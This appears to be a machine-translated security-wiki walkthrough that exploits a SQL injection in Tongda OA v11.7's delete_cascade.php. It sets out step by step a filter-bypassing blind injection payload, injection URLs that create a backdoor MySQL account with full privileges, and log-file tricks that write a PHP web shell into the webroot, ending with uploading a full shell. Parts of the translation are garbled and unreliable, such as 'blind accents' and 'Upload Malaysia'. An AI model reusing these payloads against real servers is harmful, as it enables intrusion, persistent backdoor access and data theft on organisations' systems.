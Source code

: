 # Tongda OA v11.7 delete_cascade.php background SQL injection

## Vulnerability Description

There is SQL injection in the background of Tongda OA v11.7, and you can write malicious backdoor files to attack the target server through this vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v11.7</span>

## Environment construction

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Environmental address: https://cdndown.tongda2000.com/oa/2019/TDOA11.7.exe</span>

## Vulnerability reappears

In the `general/hr/manage/query/delete_cascade.php` file

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-3.png)

First, determine whether `$condition_cascade` is empty. If it is not empty, replace `\' with `'. 

`inc/common.inc.php` code

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-4.png)



Test SQL injection using blind annotation



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-5.png)



Triggered SQL injection interception of Tongda OA

The filtering mechanism is found in the `inc/conn.php` file as follows:

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-6.png)



It filters some characters, but it is not impossible to bypass. The core of blind accents is that functions such as `substr, if` are not filtered. So as long as MySQL is constructed, you can use the `if` function to blind accent. Looking through the sharing of the outsider's master at the White Hat Conference, I found that `power(9999,99)` can also cause the database to report an error, so the constructor statement:



```sql
select if((substr(user(),1,1)='r'),1,power(9999,99)) # 当字符相等时，不报错，错误时报错
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-7.png)



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-8.png)



Add SQL database user



```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```



Visit `https://xxx.xxx.xxx.xxx/general/hr/manage/query/delete_cascade.php?condition_cascade=grant all privileges ON mysql. *TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION*



Enter the `Myoa/mysql5/bin` directory Execute `mysql -upeiqi -p` Enter your password to query all users



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-9.png)



Found that successful execution adds an account

Then the user has all permissions to the mysql database and then adds permissions to himself:



```sql
UPDATE `mysql`.`user` SET `Password` = '*FBCFBB73CF21D4F464A95E775B40AF27A679CD2D', `Select_priv` = 'Y', `Insert_priv` = 'Y', `Update_priv` = 'Y', `Delete_priv` = 'Y', `Create_priv` = 'Y', `Drop_priv` = 'Y', `Reload_priv` = 'Y', `Shutdown_priv` = 'Y', `Process_priv` = 'Y', `File_priv` = 'Y', `Grant_priv` = 'Y', `References_priv` = 'Y', `Index_priv` = 'Y', `Alter_priv` = 'Y', `Show_db_priv` = 'Y', `Super_priv` = 'Y', `Create_tmp_table_priv` = 'Y', `Lock_tables_priv` = 'Y', `Execute_priv` = 'Y', `Repl_slave_priv` = 'Y', `Repl_client_priv` = 'Y', `Create_view_priv` = 'Y', `Show_view_priv` = 'Y', `Create_routine_priv` = 'Y', `Alter_routine_priv` = 'Y', `Create_user_priv` = 'Y', `Event_priv` = 'Y', `Trigger_priv` = 'Y', `Create_tablespace_priv` = 'Y', `ssl_type` = '', `ssl_cipher` = '', `x509_issuer` = '', `x509_subject` = '', `max_questions` = 0, `max_updates` = 0, `max_connections` = 0, `max_user_connections` = 0, `plugin` = 'mysql_native_password', `authentication_string` = '', `password_expired` = 'Y' WHERE `Host` = Cast('%' AS Binary(1)) AND `User` = Cast('peiqi' AS Binary(5));
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-10.png)



Then use the injection point to refresh the permissions, because the user does not have the permission to refresh the permissions: `general/hr/manage/query/delete_cascade.php?condition_cascade=flush privileges;`



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-11.png)

If login fails, execute

```sql
grant all privileges ON mysql.* TO 'peiqi'@'%' IDENTIFIED BY 'peiqiABC@123' WITH GRANT OPTION
```

Write shells using vulnerabilities



```sql
# 查路径：
select @@basedir; # F:\OA\mysql5\，那么web目录就是 F:/OA/webroot/
# 方法1：
set global slow_query_log=on;
set global slow_query_log_file='F:/OA/webroot/';
select '<?php phpinfo();?>' or sleep(11);
# 方法2：
set global general_log = on;
set global general_log_file = 'F:/OA/webroot/';
select '<?php phpinfo();?>';
show variables like '%general%';
```



Upload Malaysia

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/tongdaoa-12.png)